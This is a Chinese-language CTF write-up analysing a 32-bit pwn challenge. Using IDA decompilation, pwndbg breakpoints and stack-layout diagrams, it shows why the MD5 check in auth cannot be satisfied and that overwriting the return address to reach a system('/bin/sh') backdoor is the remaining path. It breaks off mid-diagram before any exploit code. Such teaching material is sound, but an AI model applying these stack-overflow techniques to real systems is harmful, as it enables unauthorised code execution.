> 一道无名pwn题
> 本题考察栈迁移，简单来说就是缓冲区空间小，需要在可写段里写我们想要的东西，这题有意思的地方是，不同函数读取栈空间的时候并不重叠，这会导致我们将目标地址写入缓冲区后，并不会被覆盖

## env

先查看安全架构  `checksec pwn`



本题是32位小端序二进制文件，存在栈溢出保护，栈上不可执行，地址不会随机化，没有去除符号表，初步感觉可能要打溢出或打rop

## 关键代码审计

> main

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+18h] [ebp-28h] BYREF
  _BYTE s[30]; // [esp+1Eh] [ebp-22h] BYREF
  unsigned int v6; // [esp+3Ch] [ebp-4h]

  memset(s, 0, sizeof(s));
  IO_setvbuf(stdout, 0, 2, 0);
  IO_setvbuf(stdin, 0, 1, 0);
  _printf("PWNshow login: ");
  _isoc99_scanf("%30s", s); //有长度检测，只能读取30字节的内容，缓冲区空间比较小，就要考虑栈迁移的打法，比如将地址写到可写.bss那样
  memset(&input, 0, 12u); //申请并初始化了一个12字节大小的input缓冲区
  v4 = 0;
  v6 = Base64Decode((int)s, &v4); //一看就是对30字节的内容进行base64解码，如果后面没有构造出攻击链再回来看看base64解码过程有没有洞
  if ( v6 > 12 ) //解码后的数据长度不能超过12，这算是稍微严格点的限制，按照常规base64的3变4，这里长度不能超过12的话，理论上base64长度最大16字节
  {
    IO_puts((int)"Input Error!");
  }
  else
  {
    memcpy(&input, v4, v6); //拷贝操作，将v4地址开始的v6字节拷贝到input里，最多12字节
    if ( auth(v6) ) //关键的一个布尔函数，它如果成真就触发correct函数
      correct(); //关键函数2
  }
  return 0;
}
```

> correct

先看看correct，这里有我们最终需要的后门函数`system("/bin/sh")`

```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    IO_puts((int)"Wow Fantastic,you deserve it!");
    _libc_system("/bin/sh");
  }
  exit(0);
}
```

那么我们应该关注下auth函数，如果说，我们能满足auth函数的要求，就能直接触发后门函数，那么本题的定位可能就是逆向而不是pwn了

> auth

```c
_BOOL4 __cdecl auth(int a1)
{
  _BYTE v2[8]; // [esp+14h] [ebp-14h] BYREF
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h] BYREF

  memcpy(&v4, &input, a1); //读取全局变量input
  s2 = (char *)calc_md5(v2, 12); //计算md5
  _printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0; //进行md5比较，如果匹配，返回0为真，否则为假
}
```

先挑简单点的来，将md5哈希放到[cmd5](https://www.cmd5.com/)或[somd5](https://www.somd5.com/)网站查过，都没有成功，那么本题就不能正常逆向来，需要挖掘对应漏洞，这里的漏洞过程需要围绕：怎么做才能绕过auth，最后返回到correct函数这个主路线

那么我们就应该认真检查栈布局了，主要是看缓冲区读取的部分，大概的掌握栈布局

先分析main，围绕缓冲区栈布局的函数中，scanf算一个，毕竟它要将数据写入30字节缓冲区中，那么我们可以在scanf下面的那条mov指令上打断点，输入任意字符QUFB看看栈布局(如果想在同一个dbg里跑剩下的函数，那就提前弄成base64编码形式，避免因为解码错误而重来，AAA的base64编码就是QUFB



```bash
break *0x0804939c
run
```

教教你怎么看pwndbg的一些功能划分

这一部分是寄存器



留意几个关键部分

- ​`EBP  0xffffd228`         <---  main 的帧基址
- ​`ESP  0xffffd1e0 `          <---  当前栈顶
- ​`EIP  0x804939c `           <---  当前指令位置

> 解读下这三个寄存器
>
> EBP 是一个固定的**参考系**，指向当前函数栈帧的“基址”，这个一般是程序手动压栈得到的，可能有的函数也没有ebp呢？
>
> 在IDA Pro中可以看到：
>
> 
>
> 就单纯拿申请的那个s[30]数组举例，后面的两个方括号是两种表达方式，前者表示该数组所在的栈空间：距离esp向高地址偏移0x1e,距离ebp向低地址偏移0x22字节
>
> ESP 始终指向**栈顶（最低地址）** ，push 会让 ESP **变小**（向下移动），pop 会让 ESP **变大**（向上移动）
>
> EIP 指向**代码段**中当前正在执行的指令地址，和栈上的 EBP/ESP 无关

然后我们看看stack堆栈区域，这里有我们的scanf读取的数据



这里的s[0]缓冲区地址应该是从esp+0x1e开始的，然后在栈向上发展赋值，画个简单的scanf的栈布局

读取数据之前的栈布局：

```bash
高地址
+--------------------------+  ← ESP + 0x3C
|   v6 (unsigned int)      |
+--------------------------+  ← ESP + 0x3B
|   s[29]                  |
+--------------------------+
|   s[28]                  |
+--------------------------+
|   ...                    |
+--------------------------+  ← ESP + 0x22
|   s[4]                   |
+--------------------------+  ← ESP + 0x21
|   s[3]                   |
+--------------------------+  ← ESP + 0x20
|   s[2]                   |
+--------------------------+  ← ESP + 0x1F
|   s[1]                   |
+--------------------------+  ← ESP + 0x1E
|   s[0]                   |  ← scanf 从这里开始写
+--------------------------+  ← ESP + 0x1D
|   (对齐/间隙)            |
+--------------------------+  ← ESP + 0x18
|   v4 (int)               |
+--------------------------+
|   ...                    |
+--------------------------+  ← ESP + 0x04
|   &s (参数2)             |
+--------------------------+  ← ESP + 0x00
|   "%30s"地址 (参数1)     |
+--------------------------+
低地址
```

读取QUFB之后的栈布局：

```bash
高地址
+--------------------------+  ← ESP + 0x3C
|   v6 (未变)              |
+--------------------------+  ← ESP + 0x3B
|   s[29] (未变)           |
+--------------------------+
|   ...                    |
+--------------------------+  ← ESP + 0x23
|   s[5] (未变)            |
+--------------------------+  ← ESP + 0x22
|   s[4] = '\0'            |  ← 结束符
+--------------------------+  ← ESP + 0x21
|   s[3] = 'B' (0x42)      |
+--------------------------+  ← ESP + 0x20
|   s[2] = 'F' (0x46)      |
+--------------------------+  ← ESP + 0x1F
|   s[1] = 'U' (0x55)      |
+--------------------------+  ← ESP + 0x1E
|   s[0] = 'Q' (0x51)      |
+--------------------------+  ← ESP + 0x1D
|   (对齐/间隙，未变)       |
+--------------------------+  ← ESP + 0x18
|   v4 (未变)              |
+--------------------------+
低地址
```

我感觉我画的应该已经很详细了，那么我们就知道scanf写入数据用的缓冲区布局应该如下：（从`0xffffd1fe`​到`0xffffd21b`）

```bash
    低地址                             高地址
     ┌────┬────┬────┬────┬────┬──...──┬────┐
     │    │    │    │    │    │       │    │
     └────┴────┴────┴────┴────┴──...──┴────┘
    0xffffd1e0                   0xffffd1fe        0xffffd21b
     ↑esp                       ↑esp+0x1e         ↑esp+0x1e+29
                                 (缓冲区起点)       (缓冲区终点)
```

接下来继续向下追踪，看看base64的解码操作，以及对应结果

有两种方案，第一种就是不断用`next`​命令跳转下一条指令，第二种方案就是直接jmp跳转：`jump *0x80493cf`

跳转过来的效果如下：



此时还没有真正进入base64解码过程，我并不建议真的进去，因为里面的解码流程有点冗余，我们只需要知道它可以进行解码，得到结果AAA，我们应该关注的是栈上的地址变化，就比如这里的AAA被保存在哪里，还是说覆盖了上面的QUFB?

那么接下来就直接`next`​，可以跳一大步，跳转到`0x80493d4`​对应的mov指令那里，如果你真想看decode的详细过程，那么就输入`stepi`，进入查看函数内部的汇编指令



先看寄存器部分，EAX=3，这是因为解码结果AAA恰好是3个字节，然后就是申请缓冲区等操作，这里务必回顾汇编代码



可以看得出来，这里的AAA需要等到`0x80493f6`被call后才能写入到全局缓冲区中，那我们需要多next几次看看



留意这部分，红框部分告诉我们，写入地址是0x811eb40,数据来源是0x81209b8，n=3代表写入3个字符

至于这里的0x811eb40,可以回到IDA查看，发现它是.bss可写段，还是挺稳定的



先next，确保写入到input里，然后查看该缓冲区的上下文，可以直观的看出来：成功写入了程序刚刚解码的“AAA”字符串



再往下走几步，到达auth，看看auth内部会读取哪里的缓冲区



这里暂时看不出什么来，只知道会执行auth(3)，剩下的那三个参数先不要管，看ida逆向的结果，这里的auth只读取一个v6，然后v6就是对应AAA所在的指针，我猜测，剩下几个参数也许是上面memcpy运行的时候产生的，只是寄存器一直没有覆盖



接下来必须进入auth内部，gdb中使用`step`，ida中也顺便调出来汇编，我建议在这个auth里面再打两个断点



主要是不能错过每次的缓冲区读取过程（一直跑next也可以，反正指令不多

来看看第一处断点



看到了三个参数吧，写入地址是`0xffffd1d0`,写入的内容是前面的input指针里的AAA，写入长度是3

因此啊，memcpy这次写入的缓冲区是从`0xffffd1d0`​到`0xffffd1d2`,总共三个字节（理论上，上限是12个字节，我们这里尝试的值小了点

继续向下，看看`calc_md5`

​`break *0x080492cd`后直接c



注意下对应的参数，理论上这里只需要两个参数a1,a2



第一个参数的值`0xffffd1c4`​，第二个参数的值`0xc`

这意味着calc_md5函数要读取的内容在缓冲区栈上的地址应该是`0xffffd1c4到0xffffd1cf`之间共12个字节

那么这里就有个很严重的问题了，还记得我前面说auth内部的memcpy处理的栈地址嘛？

从`0xffffd1d0`​到`0xffffd1d2`​，虽说这里只有三字节，但是如果说弄到最大12字节，这个范围也仅仅扩展到`0xffffd1db`

我画个建议的栈布局，更直观点

```bash
地址范围                                    大小
0xffffd1c4 ─────────────────────────────┐
   ...                                   │ 12 字节
0xffffd1cf ─────────────────────────────┘ (calc_md5读取的部分)
0xffffd1d0 ─────────────────────────────┐
   ...                                   │ 12 字节
0xffffd1db ─────────────────────────────┘ (memcpy写入的部分)
```

那么我们就破案了，calc_md5压根不管我们写入的值，所以说就算真的知道那个md5对应的明文，本题也无法解决，现在唯一的出路是想办法利用已经掌握的栈布局尝试覆盖返回地址

还记得auth的开头汇编嘛？



具体作用如下：

```bash
    0804929c: push   %ebp          ; 压入 main 的 ebp
    0804929d: mov    %esp,%ebp     ; ebp = esp (auth 的帧基址)
    0804929f: sub    $0x28,%esp    ; 分配 40 字节局部空间
```

这40 字节的局部空间是从 ebp 往下到 ebp-0x28。但 memcpy 并没有用这 40 字节的全范围

先继续向下看看memcpy上面的几条指令

```bash
    80492b1: lea    -0x14(%ebp),%eax     ; eax = ebp - 0x14
    80492b4: add    $0xc,%eax            ; eax = ebp - 0x14 + 0xc = ebp - 0x08
```

这里算是进行了一些计算，得到当前的寄存器eax的值应该是`ebp-0x08`

所以啊，` memcpy 目标 = ebp - 0x08`

我下面画一下auth的栈帧

```bash
                ┌────────────────────┐
                │  decoded_len = 3   │  0xffffd1e0  ← auth 的参数（AAA那版本
                ├────────────────────┤
                │  返回地址 → main    │  0xffffd1dc
                ├────────────────────┤
